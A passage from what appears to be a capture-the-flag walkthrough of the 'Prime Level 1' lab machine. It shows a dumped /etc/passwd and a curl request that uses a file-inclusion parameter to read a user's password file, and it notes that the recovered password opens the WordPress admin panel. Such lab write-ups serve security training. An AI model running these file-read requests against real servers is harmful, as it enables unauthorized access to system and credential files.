 ```
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false
whoopsie:x:109:117::/nonexistent:/bin/false
avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false
colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false
rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false
saned:x:119:127::/var/lib/saned:/bin/false
usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
victor:x:1000:1000:victor,,,:/home/victor:/bin/bash
mysql:x:121:129:MySQL Server,,,:/nonexistent:/bin/false
saket:x:1001:1001:find password.txt file in my directory:/home/saket:
sshd:x:122:65534::/var/run/sshd:/usr/sbin/nologin
```

As can be seen from the output above, looks like user saket has password.txt
file in his home directory.
```
root@kali:~# curl http://192.168.20.149/image.php?secrettier360=/home/saket/password.txt
<html>
<title>HacknPentest</title>
<body>
 <img src='hacknpentest.png' alt='hnp security' width="1300" height="595" /></p></p></p>
</body>
finaly you got the right parameter<br><br><br><br>follow_the_ippsec
</html>
Follow_the_ippsec is the contents of password.txt file.
```

### Browser (WordPress Admin’s Panel)

The password did not work for user victor and saket when tried with SSH.
However, it did work for the WordPress site’s administrator’s panel.

![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Prime%20Level%201/Images/37f1f9cd00fe0148b05b1347ddd2bfdf.png?raw=true)

Low Privilege Exploitation
--------------------------

After further enumeration a writeable php file has been found, while using
WordPress’ theme editor.

![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Prime%20Level%201/Images/cbd8b5603277fbdb8e0888e50a36aea0.png?raw=true)
